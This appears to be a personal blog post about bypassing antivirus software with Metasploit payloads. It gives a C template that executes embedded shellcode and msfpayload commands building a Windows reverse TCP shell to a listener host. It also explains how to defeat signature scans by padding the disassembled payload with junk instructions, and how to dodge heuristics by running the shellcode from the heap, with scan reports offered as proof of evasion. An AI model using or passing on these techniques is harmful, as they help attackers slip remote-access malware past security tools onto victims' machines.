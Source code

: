 The next section is my experiment and some scan report.

## Experiment on bypass Antivirus software

I want to bypass all av with metasploit generated payload. this is my program template to inject payload:

{% highlight c %}
#include <stdio.h>
/* shellprogram.c */
char code[] = 
"<payload here>"
"";
int main(int argc, char *argv[])
{
    int (*exeshell)();
    exeshell = (int (*)()) code;
    (int)(*exeshell)();
  }
{% endhighlight %}

To avoid the signature detection of the well-known metasploit payload, You can disassemble it and add random non-sense instructions(for example， push and pop) to make the binary different from the original one. You can simply write a script to automatic this like I do.[^2] Finally, get the new C style shellcode.

     ~/Work/project/bypassav ⮀ ~/metasploit-framework/msfpayload windows/shell/reverse_tcp LHOST=192.168.56.102 R > shell_reverse_raw
     ~/Work/project/bypassav ⮀ python ndisasm.py shell_reverse_raw > ghost-writing.asm
     ~/Work/project/bypassav ⮀ nasm ghost-writing.asm -o new
     ~/Work/project/bypassav ⮀ od -tx1 test.o | cut -c8-80 | sed -e 's/ /\\x/g' | sed -e 's/^/"/g' | sed -e 's/$/"/g'

Bypass all AVs' detection is a challenge, for to avoid one AV you may trigger another one. The program above will bypass most but Asquared.

Why? I try to remove my shellcode just test the template, It will still be marked by avs. You can check the report [here](http://vscan.novirusthanks.org/analysis/684ebdecaf29c41841833d9738c4ccac/Yy1ub25lLWV4ZQ==/) and [here](http://r.virscan.org/report/d35e77a1472bea0119ca8d1ec56d7b1a.html)
     
So it looks like execute from the data section is suspicious! There must many people use this tricks!

So I decided to copy it to heap and execute shellcode from heap.

[No shellcode and execute from heap](http://vscan.novirusthanks.org/analysis/312caba7ca97f0b0b6deee4e0ebb2b7a/Yy1zaGVsbC1yZXZlcnNlLW5hc20taGVhcC1ndy11/), No AV mark it as malicious. Another [Report here](https://www.metascan-online.com/en/scanresult/file/dc5c7080fc44495f880facfdfc2b9eb1)

So, move your modified shellcode(You must Modified it so won't be checked before execution) to heap and execute from heap. However, some AVs can detect it, here's the [report](https://www.metascan-online.com/en/scanresult/file/e3442be2dd0f4a089a2c16db2d387880) and [another one](http://vscan.novirusthanks.org/analysis/312caba7ca97f0b0b6deee4e0ebb2b7a/Yy1zaGVsbC1yZXZlcnNlLW5hc20taGVhcC1ndy11/).

make the modified upsidedown won't bypass it and the name it marked never change. So I doubt these avs use sandbox to detect my shellcode.


[^1]: Example comes from [http://www.scriptjunkie.us/2011/04/why-encoding-does-not-matter-and-how-metasploit-generates-exes/](http://www.scriptjunkie.us/2011/04/why-encoding-does-not-matter-and-how-metasploit-generates-exes/)
[^2]: Thanks to the article on [Pentest Geek](http://www.pentestgeek.com/2012/01/25/using-metasm-to-avoid-antivirus-detection-ghost-writing-asm/#comment-513), however, nasm may a better choice. for there won't be piles of `db`s